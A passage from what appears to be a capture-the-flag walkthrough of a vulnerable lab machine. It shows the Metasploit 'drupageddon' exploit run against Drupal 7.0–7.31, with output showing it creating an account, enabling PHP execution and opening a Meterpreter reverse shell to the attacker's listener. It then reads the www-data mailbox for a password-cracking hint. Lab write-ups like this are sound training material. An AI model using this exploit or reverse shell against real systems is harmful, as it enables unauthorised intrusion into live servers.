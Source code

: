     Exploit target:

      Id  Name
      --  ----
      0   Drupal 7.0 - 7.31


We launch our exploit against the server and praise for a reverse shell:
    msf exploit(drupal_drupageddon) > exploit

    Started reverse TCP handler on 10.0.2.15:4444
    Testing page
    Creating new user ULMihKJWdb:giXrJOFefa
    Logging in as ULMihKJWdb:giXrJOFefa
    Trying to parse enabled modules
    Enabling the PHP filter module
    Setting permissions for PHP filter module
    Getting tokens from create new article page
    Calling preview page. Exploit should trigger...
    Sending stage (33721 bytes) to 10.0.2.4
    Meterpreter session 2 opened (10.0.2.15:4444 -> 10.0.2.4:52349) at 2016-05-10 16:56:46 +0200

## Second hint

Okay it works, we got a meterperter with the user `www-data`, let's follow the
hint a get a look to the e-mails:

    meterpreter ls /var/mail
    Listing: /var/mail
    ==================

    Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    100777/rwxrwxrwx  564   fil   2016-04-14 20:32:01 +0200  www-data

Let's read the e-mails of www-data:

    From Dave <dave@droopy.example.com> Wed Thu 14 Apr 04:34:39 2016
    Date: 14 Apr 2016 04:34:39 +0100
    From: Dave <dave@droopy.example.com>
    Subject: rockyou with a nice hat!
    Message-ID: <730262568@example.com>
    X-IMAP: 0080081351 0000002016
    Status: NN

    George,

      I've updated the encrypted file... You didn't leave any
    hints for me. The password isn't longer than 11 characters
    and anyway, we know what academy we went to, don't you...?

    I'm sure you'll figure it out it won't rockyou too much!

    If you are still struggling, remember that song by The Jam

    Later,
    Dave
